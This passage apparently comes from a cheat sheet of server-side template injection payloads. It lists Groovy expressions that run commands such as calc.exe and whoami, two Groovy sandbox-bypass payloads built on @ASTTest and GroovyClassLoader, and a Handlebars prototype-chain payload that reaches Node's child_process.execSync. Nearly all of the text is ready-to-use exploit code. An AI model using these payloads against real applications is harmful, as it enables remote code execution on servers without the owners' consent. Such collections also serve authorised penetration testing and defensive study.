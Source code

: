 ```groovy
${"calc.exe".exec()}
${"calc.exe".execute()}
${this.evaluate("9*9") //(this is a Script class)}
${new org.codehaus.groovy.runtime.MethodClosure("calc.exe","execute").call()}
```

### Groovy - Sandbox Bypass

```groovy
${ @ASTTest(value={assert java.lang.Runtime.getRuntime().exec("whoami")})
def x }
```

or

```groovy
${ new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x") }
```

---

## Handlebars

[Official website](https://handlebarsjs.com/)
> Handlebars compiles templates into JavaScript functions.

### Handlebars - Command Execution

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

---

## Jade / Codepen
